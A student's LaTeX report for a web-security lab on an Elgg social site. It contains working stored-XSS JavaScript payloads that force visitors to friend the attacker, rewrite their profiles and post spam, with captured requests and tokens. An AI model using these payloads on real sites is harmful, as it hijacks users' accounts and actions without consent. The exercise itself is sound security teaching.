\documentclass[12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[left=0.75in,right=0.75in,top=0.75in,bottom=0.75in ]{geometry}
\usepackage{multirow}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{rotating}
\usepackage{ragged2e}
\usepackage{multicol}
\usepackage{float}
\usepackage{algpseudocode}
\usepackage{enumitem}
\usepackage{caption}
\usepackage{minted}
\usepackage{subcaption}
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    }

\renewcommand{\figurename}{\textbf{Figure}}
\renewcommand{\thefigure}{\textbf{\arabic{figure}}}

\title{CSE 406 \\
Computer Security Sessional \\
\vspace{10mm}
Assignment 2: Web Security Assignment \\
\vspace{20mm}
Student ID: 1905001 \\
\vspace{15mm}
\RaggedRight
}
\author{}
\date{}

\begin{document}

\maketitle
\newpage
% \tableofcontents

\section*{Task 1 : Becoming the Victim’s Friend}
For making some observation, when Samy added Charlie as a friend, this HTTP request was sent:

\begin{minted}[tabsize=2,breaklines=true, breakanywhere=true]{html}
GET /action/friends/add?friend=58&__elgg_ts=1707404893&__elgg_token=G8NTaeQr5EhZLASu-9B7Uw&__elgg_ts=1707404893&__elgg_token=G8NTaeQr5EhZLASu-9B7Uw HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/charlie
Cookie: elggperm=zhN3G_BuEwIIEwUIhs_dycdo-ZaH4cXa; Elgg=1sk3memisao6ijsf04asuo8q3s
\end{minted}

58 seems to be an ID for Charlie, which was confirmed upon seeing this GET request for displaying Charlie's profile picture in his profile page.

\begin{minted}[tabsize=2,breaklines=true,breakanywhere=true]{html}
GET /serve-file/e0/l1707401864/di/c0/FtBEVGTljF14vKvA9AJ0YRBl95X_hAHrmnXWZBGJnsg/1/58/profile/58large.jpg HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/charlie
Cookie: Elgg=h3bdfki7sh3fb6bi9pk2msv20u
\end{minted}

We then check Samy's profile and find that his ID is 59. We want to ensure another thing. When Samy visits his own profile, he should not be a victim of his own attack. That means, we need some way to know what the ID of the current session owner is. We find out that this can be known from $elgg.session.user.guid$ .

We then place the following in Samy's ``About Me'' in HTML format.

\begin{minted}[tabsize=2,breaklines=true,breakanywhere=true]{js}
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        // Time Stamp
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        // Security Token
        var token= "&__elgg_token=" + elgg.security.token.__elgg_token;
        // ID of Samy, the user to be added as friend
        var addWhomID = 59;
        // ID of the user who is viewing the profile with ID 'addWhomID'
        var whoIsViewingID = elgg.session.user.guid;

        // If the user is viewing his own profile, then the attack is not performed
        if (whoIsViewingID == addWhomID) return;

        var sendurl = `/action/friends/add?friend=${addWhomID}&__elgg_ts=${ts}elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;

        //Create and send Ajax request to add friend
        Ajax = new XMLHttpRequest();
        // last boolean value is for asynchronous request making
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.seed-server.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
	}
</script>
\end{minted}

After this, when Alice visits Samy's profile, the attack is executed and this is the result:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss1.png}
         \caption{Samy gets added as Alice's friend}
         \label{fig:ss1}
     \end{figure}

\newpage


\section*{Task 2 : Modifying the Victim’s Profile}
Again to get idea about what happens under the hood when a user modifies his/her profile, we modify Samy's profile from Samy's account. We see a POST request being made with these headers.

\begin{minted}[tabsize=2,breaklines=true,breakanywhere=true]{html}
POST /action/profile/edit HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------30307574302762552179267116265
Content-Length: 2970
Origin: http://www.seed-server.com
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy/edit
Cookie: Elgg=h3bdfki7sh3fb6bi9pk2msv20u
Upgrade-Insecure-Requests: 1
\end{minted}

Since this is a POST request, we also need to take a look at the request body. We use the HTTP Header Live add-on for this.

     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss2.png}
         \caption{POST Request for Profile Update}
         \label{fig:ss2}
     \end{figure}

The content in the image is the following:

\begin{minted}[breaklines=true,breakanywhere=true]{text}
 __elgg_token=-HmBHBxcaADQibHk6G3bCQ&__elgg_ts=1707413678&name=Samy&description=&accesslevel[description]=1&briefdescription=1905001&accesslevel[briefdescription]=1&location=&accesslevel[location]=1&interests=&accesslevel[interests]=1&skills=&accesslevel[skills]=1&contactemail=&accesslevel[contactemail]=1&phone=&accesslevel[phone]=1&mobile=&accesslevel[mobile]=1&website=&accesslevel[website]=1&twitter=&accesslevel[twitter]=1&guid=59
\end{minted}

So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{minted}[tabsize=2,breaklines=true,breakanywhere=true]{js}
<script type="text/javascript">
	window.onload = function() {
	    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	    var token="&__elgg_token="+elgg.security.token.__elgg_token;
	    var name=elgg.session.user.name;
	    var guid=elgg.session.user.guid;
        var sendurl='/action/profile/edit';
	    var content=`__elgg_token=${token}&__elgg_ts=${ts}&name=${name}&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if(name!="Samy")
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
	}
</script>
\end{minted}

This yields the expected results.\newline
But there is a more elegant solution, through Form Data. We end up using that.

\begin{minted}[breakanywhere=true,breaklines=true,tabsize=2]{js}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/profile/edit";

        // If the user is Samy, then the attack is not performed
        if (name == "Samy") return;

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', name);
        formData.append('description', '1905001');
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);

        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{minted}

In any of the cases, we place the malicious script in Samy's ``About Me'' section like the previous task.

Alice's profile is once again infiltred with the following consequences:

     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss3.png}
         \caption{Alice's profile got updated}
         \label{fig:ss3}
     \end{figure}

\newpage
\section*{Task 3: Posting on the Wire on Behalf of the Victim}
To get things going, we make a test post from Samy's profile. The following POST request is being made.

\begin{minted}[tabsize=2,breaklines=true,breakanywhere=true]{html}
POST /action/thewire/add HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------32444503430801608504269599436
Content-Length: 443
Origin: http://www.seed-server.com
Connection: keep-alive
Referer: http://www.seed-server.com/thewire/all
Cookie: Elgg=h3bdfki7sh3fb6bi9pk2msv20u
Upgrade-Insecure-Requests: 1
\end{minted}

The request body has this content:

\begin{minted}[breaklines=true,breakanywhere=true]{text}
__elgg_token=un1KjOAjar7PKPaDSDuDfA&__elgg_ts=1707419569&body=Test Post
\end{minted}

    \begin{figure}[H]
         \centering
         
\includegraphics[width=0.95\textwidth]{Images/ss4.png}
         \caption{POST Request for posing on the Wire}
         \label{fig:ss4}
     \end{figure}

This task is quite similar to the previous one, in fact the request body is way shorter. So, we place this script in the ``About Me'' section once again.

\begin{minted}[tabsize=2,breaklines=true,breakanywhere=true]{js}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (name == "Samy") return;

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{minted}

When Alice visits Samy's profile this time, a post is made from her profile without her knowing it.

    \begin{figure}[H]
         \centering
         
\includegraphics[width=0.9\textwidth]{Images/ss5.png}
         \caption{Wire post made from Alice's profile}
         \label{fig:ss5}
     \end{figure}



\end{document}
